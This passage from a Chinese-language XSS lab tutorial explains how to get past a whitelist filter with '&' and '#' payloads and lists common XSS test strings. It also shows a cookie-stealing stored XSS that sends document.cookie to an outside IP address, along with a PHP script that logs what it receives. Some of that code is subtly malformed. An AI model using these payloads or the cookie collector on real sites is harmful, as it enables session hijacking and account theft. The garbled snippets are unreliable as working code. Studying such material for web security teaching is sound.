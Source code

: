 ```php
            exit;
    }
}
?>
```

使用了白名单模式，如果`default`的值不为”French”、”English”、”German”、”Spanish”的话就重置URL为:`?default=English` ，这里只是对default的变量进行了过滤。

**payload1**

可以使用`&`连接另一个自定义变量来Bypass

```
?default=English&a=</option></select><img src=x onerror=alert('XSS')>
?default=English&a=<input onclick=alert('XSS') />
```

**payload2**

也可以使用`#`来Bypass

```
?default=English#</option></select><img src=x onerror=alert('XSS')>
?default=English#<input onclick=alert('XSS') />
```



#### XSS获取用户Cookie

**构造存储型 xss ，内容为传参，并指向自己的服务器：**

```html
<script>alert(/var url="47.111.139.22/eydm.php?msg="+zyc+document.cookie;Window.open(url,"_blank")/)</script>
```

服务器端进行接收数据，接收传参：

```php
<?php
$content = $_REQUEST["msg"];
$time = data(format:'Y-m-d H:i:s', time());
$file = "xss.txt";
$fp = fopen($file, mode:"a+");
fwrite($fp, string:$time . "|" . $content . "\r\n");
fclose($fp)
?>
```

或者我们搭建Cookie收集平台，这里就不演示了



#### XSS常用绕过

**常用测试语句**

```
<script>alert(/2333/)</script>
<img src=x onerror=alert(/2333/)>
<svg onload=alert(/2333/)>
<a href=javascript:alert(/2333/)>
```
